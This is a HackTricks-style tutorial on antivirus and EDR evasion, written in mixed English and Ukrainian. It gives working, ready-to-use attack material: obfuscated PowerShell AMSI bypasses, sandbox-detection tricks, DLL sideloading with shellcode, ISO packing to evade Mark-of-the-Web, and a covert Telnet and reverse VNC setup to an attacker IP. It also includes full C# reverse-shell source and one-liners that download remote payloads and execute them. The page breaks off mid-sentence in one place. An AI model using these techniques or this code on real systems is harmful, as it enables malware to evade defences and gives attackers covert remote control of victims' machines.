

# Antivirus (AV) Bypass


Learn & practice AWS Hacking:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Learn & practice GCP Hacking: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


<figure><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).



**This page was written by** [**@m2rc\_p**](https://twitter.com/m2rc_p)**!**

## **AV Evasion Methodology**

Currently, AVs use different methods for checking if a file is malicious or not, static detection, dynamic analysis, and for the more advanced EDRs, behavioural analysis.

### **Static detection**

Static detection is achieved by flagging known malicious strings or arrays of bytes in a binary or script, and also extracting information from the file itself (e.g. file description, company name, digital signatures, icon, checksum, etc.). This means that using known public tools may get you caught more easily, as they've probably been analyzed and flagged as malicious. There are a couple of ways of getting around this sort of detection:

* **Encryption**

If you encrypt the binary, there will be no way for AV of detecting your program, but you will need some sort of loader to decrypt and run the program in memory.

* **Obfuscation**

Sometimes all you need to do is change some strings in your binary or script to get it past AV, but this can be a time-consuming task depending on what you're trying to obfuscate.

* **Custom tooling**

If you develop your own tools, there will be no known bad signatures, but this takes a lot of time and effort.


A good way for checking against Windows Defender static detection is [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). It basically splits the file into multiple segments and then tasks Defender to scan each one individually, this way, it can tell you exactly what are the flagged strings or bytes in your binary.


I highly recommend you check out this [YouTube playlist](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf) about practical AV Evasion.

### **Dynamic analysis**

Dynamic analysis is when the AV runs your binary in a sandbox and watches for malicious activity (e.g. trying to decrypt and read your browser's passwords, performing a minidump on LSASS, etc.). This part can be a bit trickier to work with, but here are some things you can do to evade sandboxes.

* **Sleep before execution** Depending on how it's implemented, it can be a great way of bypassing AV's dynamic analysis. AV's have a very short time to scan files to not interrupt the user's workflow, so using long sleeps can disturb the analysis of binaries. The problem is that many AV's sandboxes can just skip the sleep depending on how it's implemented.
* **Checking machine's resources** Usually Sandboxes have very little resources to work with (e.g. < 2GB RAM), otherwise they could slow down the user's machine. You can also get very creative here, for example by checking the CPU's temperature or even the fan speeds, not everything will be implemented in the sandbox.
* **Machine-specific checks** If you want to target a user who's workstation is joined to the "contoso.local" domain, you can do a check on the computer's domain to see if it matches the one you've specified, if it doesn't, you can make your program exit.

It turns out that Microsoft Defender's Sandbox computername is HAL9TH, so, you can check for the computer name in your malware before detonation, if the name matches HAL9TH, it means you're inside defender's sandbox, so you can make your program exit.

<figure><figcaption><p>source: <a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

Some other really good tips from [@mgeeky](https://twitter.com/mariuszbit) for going against Sandboxes

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> #malware-dev channel</p></figcaption></figure>

As we've said before in this post, **public tools** will eventually **get detected**, so, you should ask yourself something:

For example, if you want to dump LSASS, **do you really need to use mimikatz**? Or could you use a different project which is lesser known and also dumps LSASS.

The right answer is probably the latter. Taking mimikatz as an example, it's probably one of, if not the most flagged piece of malware by AVs and EDRs, while the project itself is super cool, it's also a nightmare to work with it to get around AVs, so just look for alternatives for what you're trying to achieve.


When modifying your payloads for evasion, make sure to **turn off automatic sample submission** in defender, and please, seriously, **DO NOT UPLOAD TO VIRUSTOTAL** if your goal is achieving evasion in the long run. If you want to check if your payload gets detected by a particular AV, install it on a VM, try to turn off the automatic sample submission, and test it there until you're satisfied with the result.


## EXEs vs DLLs

Whenever it's possible, always **prioritize using DLLs for evasion**, in my experience, DLL files are usually **way less detected** and analyzed, so it's a very simple trick to use in order to avoid detection in some cases (if your payload has some way of running as a DLL of course).

As we can see in this image, a DLL Payload from Havoc has a detection rate of 4/26 in antiscan.me, while the EXE payload has a 7/26 detection rate.

<figure><figcaption><p>antiscan.me comparison of a normal Havoc EXE payload vs a normal Havoc DLL</p></figcaption></figure>

Now we'll show some tricks you can use with DLL files to be much more stealthier.

## DLL Sideloading & Proxying

**DLL Sideloading** takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other.

You can check for programs susceptible to DLL Sideloading using [Siofra](https://github.com/Cybereason/siofra) and the following powershell script:


```powershell
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
$binarytoCheck = "C:\Program Files\" + $_
C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```


Ця команда виведе список програм, які підлягають атаці через підміни DLL у "C:\Program Files\\" та DLL файли, які вони намагаються завантажити.

Я настійно рекомендую вам **самостійно дослідити програми, які можна підмінити/завантажити DLL**, ця техніка досить непомітна, якщо її правильно виконати, але якщо ви використовуєте публічно відомі програми, які можна підмінити DLL, вас можуть легко спіймати.

Просто розмістивши шкідливу DLL з ім'ям, яке програма очікує завантажити, не запустить ваш вантаж, оскільки програма очікує деякі специфічні функції всередині цієї DLL, щоб вирішити цю проблему, ми використаємо іншу техніку, звану **DLL Проксіюванням/Пересиланням**.

**DLL Проксіювання** пересилає виклики, які програма робить з проксі (і шкідливої) DLL до оригінальної DLL, таким чином зберігаючи функціональність програми та здатність обробляти виконання вашого вантажу.

Я буду використовувати проект [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy) від [@flangvik](https://twitter.com/Flangvik/)

Це кроки, які я виконав:


```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```


Остання команда надасть нам 2 файли: шаблон вихідного коду DLL та оригінальну перейменовану DLL.

<figure><figcaption></figcaption></figure>


```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```


Це результати:

<figure><figcaption></figcaption></figure>

Як наш shellcode (закодований за допомогою [SGN](https://github.com/EgeBalci/sgn)), так і проксі DLL мають 0/26 рівень виявлення на [antiscan.me](https://antiscan.me)! Я б назвав це успіхом.

<figure><figcaption></figcaption></figure>


Я **щиро рекомендую** вам подивитися [S3cur3Th1sSh1t's twitch VOD](https://www.twitch.tv/videos/1644171543) про DLL Sideloading, а також [відео ippsec](https://www.youtube.com/watch?v=3eROsG_WNpE), щоб дізнатися більше про те, що ми обговорювали більш детально.


## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze - це набір інструментів для обходу EDR, використовуючи призупинені процеси, прямі системні виклики та альтернативні методи виконання`

Ви можете використовувати Freeze для завантаження та виконання вашого shellcode у прихований спосіб.
```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```
<figure><figcaption></figcaption></figure>


Уникнення - це просто гра в кішки-мишки, те, що працює сьогодні, може бути виявлено завтра, тому ніколи не покладайтеся лише на один інструмент, якщо це можливо, спробуйте поєднувати кілька технік уникнення.


## AMSI (Інтерфейс сканування антивірусного програмного забезпечення)

AMSI був створений для запобігання "[безфайловому шкідливому ПЗ](https://en.wikipedia.org/wiki/Fileless_malware)". Спочатку антивірусні програми могли лише сканувати **файли на диску**, тому, якщо ви могли якимось чином виконати корисне навантаження **безпосередньо в пам'яті**, антивірус не міг нічого зробити, щоб цьому запобігти, оскільки не мав достатньої видимості.

Функція AMSI інтегрована в ці компоненти Windows.

* Контроль облікових записів користувачів, або UAC (підвищення прав EXE, COM, MSI або установки ActiveX)
* PowerShell (скрипти, інтерактивне використання та динамічна оцінка коду)
* Windows Script Host (wscript.exe та cscript.exe)
* JavaScript та VBScript
* Макроси Office VBA

Вона дозволяє антивірусним рішенням перевіряти поведінку скриптів, відкриваючи вміст скриптів у формі, яка є як незашифрованою, так і не обфускованою.

Виконання `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` викличе наступне сповіщення в Windows Defender.

<figure><figcaption></figcaption></figure>

Зверніть увагу, як передує `amsi:` і потім шлях до виконуваного файлу, з якого запустився скрипт, у цьому випадку, powershell.exe

Ми не скинули жодного файлу на диск, але все ж були спіймані в пам'яті через AMSI.

Є кілька способів обійти AMSI:

* **Обфускація**

Оскільки AMSI в основному працює з статичними виявленнями, тому модифікація скриптів, які ви намагаєтеся завантажити, може бути хорошим способом уникнути виявлення.

Однак AMSI має можливість розшифровувати скрипти, навіть якщо у них є кілька шарів, тому обфускація може бути поганим варіантом залежно від того, як це зроблено. Це ускладнює уникнення. Хоча іноді все, що вам потрібно зробити, це змінити кілька імен змінних, і ви будете в порядку, тому це залежить від того, наскільки щось було позначено.

* **Обхід AMSI**

Оскільки AMSI реалізується шляхом завантаження DLL у процес PowerShell (також cscript.exe, wscript.exe тощо), його можна легко підробити, навіть працюючи як неправа користувач. Через цей недолік у реалізації AMSI дослідники знайшли кілька способів уникнути сканування AMSI.

**Примусова помилка**

Примусове завершення ініціалізації AMSI (amsiInitFailed) призведе до того, що для поточного процесу не буде ініційовано жодного сканування. Спочатку це було розкрито [Метом Грейбером](https://twitter.com/mattifestation), і Microsoft розробила підпис, щоб запобігти більш широкому використанню.


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```


Все, що було потрібно, це один рядок коду PowerShell, щоб зробити AMSI непридатним для поточного процесу PowerShell. Цей рядок, звичайно, був позначений самим AMSI, тому потрібні деякі модифікації, щоб використовувати цю техніку.

Ось модифікований обхід AMSI, який я взяв з цього [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).
```powershell
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
$fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```
Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

Цю техніку спочатку виявив [@RastaMouse](https://twitter.com/_RastaMouse/), і вона полягає у знаходженні адреси для функції "AmsiScanBuffer" в amsi.dll (відповідальної за сканування введених користувачем даних) та переписуванні її інструкціями, щоб повернути код для E\_INVALIDARG, таким чином, результат фактичного сканування поверне 0, що інтерпретується як чистий результат.


Please read [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) for a more detailed explanation.


Існує також багато інших технік, які використовуються для обходу AMSI за допомогою powershell, ознайомтеся з [**цією сторінкою**](basic-powershell-for-pentesters/#amsi-bypass) та [цим репозиторієм](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell), щоб дізнатися більше про них.

Або цей скрипт, який через пам'яткове патчування буде патчити кожен новий Powersh

## Obfuscation

Існує кілька інструментів, які можна використовувати для **обфускації C# коду у відкритому тексті**, генерації **метапрограмних шаблонів** для компіляції бінарних файлів або **обфускації скомпільованих бінарних файлів**, таких як:

* [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C# обфускатор**
* [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): Метою цього проекту є надання відкритого коду форку компіляційного пакету [LLVM](http://www.llvm.org/), здатного забезпечити підвищену безпеку програмного забезпечення через [обфускацію коду](http://en.wikipedia.org/wiki/Obfuscation_\(software\)) та захист від підробки.
* [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator демонструє, як використовувати мову `C++11/14` для генерації обфускованого коду під час компіляції без використання будь-якого зовнішнього інструменту та без модифікації компілятора.
* [**obfy**](https://github.com/fritzone/obfy): Додає шар обфускованих операцій, згенерованих за допомогою шаблонного метапрограмування C++, що ускладнить життя людині, яка хоче зламати додаток.
* [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz - це обфускатор бінарних файлів x64, здатний обфускувати різні файли pe, включаючи: .exe, .dll, .sys
* [**metame**](https://github.com/a0rtega/metame): Metame - це простий метаморфний кодовий двигун для довільних виконуваних файлів.
* [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscator - це детальний фреймворк обфускації коду для мов, що підтримують LLVM, з використанням ROP (програмування, орієнтованого на повернення). ROPfuscator обфускує програму на рівні асемблера, перетворюючи звичайні інструкції на ROP-ланцюги, що ускладнює наше природне сприйняття нормального контролю потоку.
* [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcrypt - це .NET PE Crypter, написаний на Nim.
* [**inceptor**](https://github.com/klezVirus/inceptor)**:** Inceptor здатний перетворювати існуючі EXE/DLL у shellcode, а потім завантажувати їх.

## SmartScreen & MoTW

Ви, можливо, бачили цей екран, коли завантажували деякі виконувані файли з Інтернету та виконували їх.

Microsoft Defender SmartScreen - це механізм безпеки, призначений для захисту кінцевого користувача від запуску потенційно шкідливих додатків.

<figure><figcaption></figcaption></figure>

SmartScreen в основному працює на основі репутації, що означає, що незвичайно завантажені програми викликають SmartScreen, тим самим попереджаючи та заважаючи кінцевому користувачу виконувати файл (хоча файл все ще можна виконати, натиснувши Більше інформації -> Запустити все ж).

**MoTW** (Мітка вебу) - це [потік альтернативних даних NTFS](https://en.wikipedia.org/wiki/NTFS#Alternate_data_stream_\(ADS\)) з назвою Zone.Identifier, який автоматично створюється під час завантаження файлів з Інтернету разом з URL-адресою, з якої він був завантажений.

<figure><figcaption><p>Перевірка Zone.Identifier ADS для файлу, завантаженого з Інтернету.</p></figcaption></figure>


It's important to note that executables signed with a **trusted** signing certificate **won't trigger SmartScreen**.


Дуже ефективний спосіб запобігти тому, щоб ваші корисні навантаження отримали Мітку вебу, - це упакувати їх у якийсь контейнер, наприклад, ISO. Це відбувається тому, що Мітка вебу (MOTW) **не може** бути застосована до **не NTFS** томів.

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) - це інструмент, який упаковує корисні навантаження в вихідні контейнери, щоб уникнути Мітки вебу.

Example usage:
```powershell
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
+             o     +           +             o     +         +
o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
:: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```
Ось демонстрація обходу SmartScreen шляхом упаковки payload у файли ISO за допомогою [PackMyPayload](https://github.com/mgeeky/PackMyPayload/)

<figure><figcaption></figcaption></figure>

## Відображення збірки C#

Завантаження бінарних файлів C# в пам'ять відомо вже досить давно, і це все ще дуже хороший спосіб запуску ваших інструментів після експлуатації без ризику бути спійманим AV.

Оскільки payload буде завантажено безпосередньо в пам'ять без доступу до диска, нам потрібно буде лише подбати про патчинг AMSI для всього процесу.

Більшість C2 фреймворків (sliver, Covenant, metasploit, CobaltStrike, Havoc тощо) вже надають можливість виконувати збірки C# безпосередньо в пам'яті, але існують різні способи зробити це:

* **Fork\&Run**

Це передбачає **створення нового жертвеного процесу**, ін'єкцію вашого шкідливого коду після експлуатації в цей новий процес, виконання вашого шкідливого коду, а коли закінчите, вбити новий процес. Це має свої переваги та недоліки. Перевага методу fork and run полягає в тому, що виконання відбувається **ззовні** нашого процесу Beacon implant. Це означає, що якщо щось у нашій дії після експлуатації піде не так або буде спіймано, є **набагато більша ймовірність** того, що наш **імплант виживе.** Недолік полягає в тому, що у вас є **більша ймовірність** бути спійманим за допомогою **поведінкових виявлень**.

<figure><figcaption></figcaption></figure>

* **Inline**

Це про ін'єкцію шкідливого коду після експлуатації **в його власний процес**. Таким чином, ви можете уникнути створення нового процесу та його сканування AV, але недолік полягає в тому, що якщо щось піде не так з виконанням вашого payload, є **набагато більша ймовірність** **втратити ваш beacon**, оскільки він може зламатися.

<figure><figcaption></figcaption></figure>


Якщо ви хочете дізнатися більше про завантаження збірок C#, будь ласка, ознайомтеся з цією статтею [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/) та їх InlineExecute-Assembly BOF ([https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly))


Ви також можете завантажувати збірки C# **з PowerShell**, ознайомтеся з [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) та [відео S3cur3th1sSh1t](https://www.youtube.com/watch?v=oe11Q-3Akuk).

## Використання інших мов програмування

Як пропонується в [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins), можливо виконувати шкідливий код, використовуючи інші мови, надаючи скомпрометованій машині доступ **до середовища інтерпретатора, встановленого на SMB-ресурсі, контрольованому зловмисником**.

Дозволяючи доступ до бінарних файлів інтерпретатора та середовища на SMB-ресурсі, ви можете **виконувати довільний код на цих мовах в пам'яті** скомпрометованої машини.

Репозиторій вказує: Defender все ще сканує скрипти, але, використовуючи Go, Java, PHP тощо, ми маємо **більшу гнучкість для обходу статичних підписів**. Тестування з випадковими не обфускованими реверс-shell скриптами на цих мовах виявилося успішним.

## Розширене ухилення

Ухилення - це дуже складна тема, іноді потрібно враховувати багато різних джерел телеметрії в одній системі, тому практично неможливо залишатися повністю непоміченим у зрілих середовищах.

Кожне середовище, з яким ви стикаєтеся, матиме свої власні сильні та слабкі сторони.

Я настійно рекомендую вам подивитися цю доповідь від [@ATTL4S](https://twitter.com/DaniLJ94), щоб отримати уявлення про більш розширені техніки ухилення.



Це також ще одна чудова доповідь від [@mariuszbit](https://twitter.com/mariuszbit) про ухилення в глибині.



## **Старі техніки**

### **Перевірте, які частини Defender вважає шкідливими**

Ви можете використовувати [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck), який **видалить частини бінарного файлу**, поки не **виявить, яка частина Defender** вважає шкідливою, і розділить її для вас.\
Інший інструмент, який робить **те саме** - це [**avred**](https://github.com/dobin/avred) з відкритим веб-сайтом, що пропонує послугу на [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/)

### **Telnet сервер**

До Windows 10 всі Windows постачалися з **Telnet сервером**, який ви могли встановити (як адміністратор), виконавши:
```bash
pkgmgr /iu:"TelnetServer" /quiet
```
Зробіть так, щоб він **запускався** при старті системи та **запустіть** його зараз:
```bash
sc config TlntSVR start= auto obj= localsystem
```
**Змінити порт telnet** (приховано) та вимкнути брандмауер:
```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```
### UltraVNC

Завантажте його з: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (вам потрібні бінарні завантаження, а не налаштування)

**НА ХОСТІ**: Виконайте _**winvnc.exe**_ і налаштуйте сервер:

* Увімкніть опцію _Disable TrayIcon_
* Встановіть пароль у _VNC Password_
* Встановіть пароль у _View-Only Password_

Потім перемістіть бінарний файл _**winvnc.exe**_ і **новостворений** файл _**UltraVNC.ini**_ всередину **жертви**

#### **Зворотне з'єднання**

**Атакуючий** повинен **виконати всередині** свого **хоста** бінарний файл `vncviewer.exe -listen 5900`, щоб він був **готовий** прийняти зворотне **VNC з'єднання**. Потім, всередині **жертви**: Запустіть демон winvnc `winvnc.exe -run` і виконайте `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**УВАГА:** Щоб зберегти прихованість, ви не повинні робити кілька речей

* Не запускайте `winvnc`, якщо він вже працює, або ви викличете [вікно сповіщення](https://i.imgur.com/1SROTTl.png). перевірте, чи він працює за допомогою `tasklist | findstr winvnc`
* Не запускайте `winvnc` без `UltraVNC.ini` в тому ж каталозі, інакше відкриється [вікно конфігурації](https://i.imgur.com/rfMQWcf.png)
* Не запускайте `winvnc -h` для отримання допомоги, або ви викличете [вікно сповіщення](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Завантажте його з: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Всередині GreatSCT:
```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
Тепер **почніть лістер** з `msfconsole -r file.rc` і **виконайте** **xml payload** з:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
**Поточний захисник дуже швидко завершить процес.**

### Компіляція нашого власного реверс-шеллу

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### Перший C# реверс-шелл

Скомпілюйте його за допомогою:
```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
Використовуйте його з:
```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
}

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder();

if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
catch (Exception err) { }
}
}

}
}
```
### C# використовуючи компілятор
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```
[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Автоматичне завантаження та виконання:
```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```


Список обфускаторів C#: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++
```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
* [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
* [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
* [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
* [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
* [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Використання python для прикладу створення інжекторів:

* [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Інші інструменти
```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
### More

* [https://github.com/persianhydra/Xeexe-TopAntivirusEvasion](https://github.com/persianhydra/Xeexe-TopAntivirusEvasion)

<figure><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакерстві** і ви хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).




